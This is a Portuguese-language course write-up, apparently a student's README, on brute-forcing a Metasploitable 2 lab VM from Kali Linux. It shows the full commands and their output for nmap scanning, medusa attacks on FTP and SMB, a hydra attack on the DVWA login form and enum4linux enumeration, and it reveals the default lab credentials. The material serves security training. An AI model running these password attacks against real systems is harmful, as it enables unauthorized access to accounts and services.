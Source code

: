 
# Curso de Brute Force da DIO

Esse documento detalha o passo a passo de cada um dos assuntos abordados no curso de brute force da DIO.

### Sistemas Utilizados
Durante o curso foram utilizadas duas VMs (Maquinas Virtuais). Uma rodando o Kali Linux e outra rodando o Metasploitable.

 - [Kali Linux 2025.3](https://www.kali.org/get-kali/#kali-installer-images)
 - [Metasploitable 2](https://sourceforge.net/projects/metasploitable/)


### Ferramentas utilizadas

- nmap
- medusa
- hydra
- enum4linux


## Passo a Passo

### Analisando o alvo
Executando o comando "nmap" para verificar os serviços disponiveis:
```bash
nmap -sV -p 21,22,80,445,139 <IP_Address>
```
OUTPUT:
```bash
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

### Acessando o FTP
Criando arquivos com usuario e senhas:
```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwert\nmsfadmin" > passwords.txt
```
Executando o comando "medusa" para atacar o serviço FTP:
```bash
medusa -h <IP_Address> -U users.txt -P passwords.txt -M ftp -t 6
```
OUTPUT:
```bash
User: msfadmin Password: msfadmin [SUCCESS]
```

### Acessando o site DVWA através do formulário
Durante o curso a ferramenta medusa foi utilizada nessa etapa, mas por curiosidade tentei a ferramenta "hydra" para chegar ao mesmo resultado.  
  
  
Executando o comando "hydra" para atacar o form de login no site DVWA:
```bash
hydra -L users.txt -P passwords.txt <IP_Address> http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -vV -t 3 -f
```
OUTPUT:
```bash
login: admin   password: password
```

### Acessando o Samba
Fazendo a enumeração do alvo:
```bash
enum4linux -a <IP_Address> | tee enum4linux_output.txt
```
Criando arquivos com usuario e senhas:
```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt
echo -e "123456\npassword\nWelcome123\nmsfadmin" > smb_passwords.txt
```
Executando o comando "medusa" para realizar o ataque:
```bash
medusa -h <IP_Address> -U smb_users.txt -P smb_passwords.txt -M smbnt -t 2 -T 50
```
OUTPUT:
```bash
User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```

